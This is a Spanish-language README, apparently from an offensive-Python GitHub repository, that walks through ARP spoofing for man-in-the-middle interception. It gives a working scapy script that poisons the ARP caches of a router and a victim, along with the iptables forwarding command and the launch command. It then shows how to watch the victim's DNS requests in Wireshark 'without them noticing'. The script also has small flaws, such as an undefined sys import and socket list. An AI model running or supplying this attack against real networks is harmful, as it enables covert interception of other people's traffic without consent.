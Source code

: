El concepto de **Man-In-The-Middle** (**MITM**) es crucial aquí, ya que el atacante se posiciona estratégicamente entre dos partes para interceptar o modificar el tráfico de datos, una táctica común en ataques cibernéticos. Esta técnica es posible debido a la naturaleza de confianza del protocolo ARP, que no verifica si las respuestas a las solicitudes ARP son legítimas.

![arpspoofer drawio](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/7355a77a-eb73-4200-b9c0-44d0f96464ed)


- El atacante debe hacer creer al **Router** que la **IP** de la victima viene vinculada a mi dirección **MAC** enviando una respuesta falsificada.
- El atacante debe hacer creer a la maquina **victima** que la **IP** del Router tiene nuestra **MAC**, así alteramos la caché de ambos dispositivos alterando la Mac vinculada.

1 - Lo primero que debemos hacer es permitir aceptar paquetes entrantes para luego enviarlos al destino

```bash
iptables --policy FORWARD ACCEPT
```

2- Luego el ip_forward debe de estar seteado a 1, para después comunicarnos al destino legitimo. Si no lo hacemos, la victima no va a poder navegar después.

```bash
cat /proc/sys/net/ipv4/ip_forward
```

![Pasted image 20240426135703](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/45136e52-bd8c-4f1d-8b37-5822be0e6978)


> Nos generamos una MAC aleatoria a modo de control para verla en el pc victima, esto lo podemos hacer con la aplicación macchanger de este mismo repositorio.

![Pasted image 20240426150023](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/572cf6e8-9bd6-4388-b808-865515b9d5e7)


----

# arp_spoof.py

```python
#!/usr/bin/env python3
import scapy.all as scapy
import argparse
import time
import signal
from termcolor import colored

def signal_handler(sig, frame):
    print(colored(f"\n[!] Saliendo del programa...", 'red'))
    for sock in open_sockets:
        sock.close()
    sys.exit(1)

signal.signal(signal.SIGINT, signal_handler)


def get_arguments():
	parser = argparse.ArgumentParser(description="ARP Spoofer")
	parser.add_argument("-t", "--target", required=True, dest="ip_address", help="Host / IP Range to Spoof")

	return parser.parse_args()
	

def spoof(ip_address, spoof_ip):
    # valor 1, es una solicitud, 2 una respuesta, (en este caso nadie la solicitó)
    arp_packet = scapy.ARP(op=2, psrc=spoof_ip, pdst=ip_address, hwsrc="aa:bb:cc:44:55:66") # creo una respuesta ARP
    scapy.send(arp_packet, verbose=False)


def main():
	arguments = get_arguments()
	while True:
		spoof(arguments.ip_address, "192.168.1.1") # objetivo - Router
		spoof("192.168.1.1", arguments.ip_address) # se imvierte para hacer el proceso pero a la victima
		time.sleep(2)


if __name__ == '__main__':
	main()
	
```

```python3
sudo python3 arpspoof.py -t 192.168.1.155
```


> Una vez lanzada la aplicación, si abrimos el Wireshark filtrando por dns, veremos todas las solicitudes de la victima. 
   Si probamos a abrir una web, veremos que la estamos interceptando.
   Podemos filtrar por **dns** o por la info que veamos en el programa, por ej: **dns.qry.name == "hackerone.com"**

![flameshotspoof](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/cae9af52-2145-4d45-b74c-78ab7c35c981)



Y ya estaremos envenenando el trafico sin que se enteren.

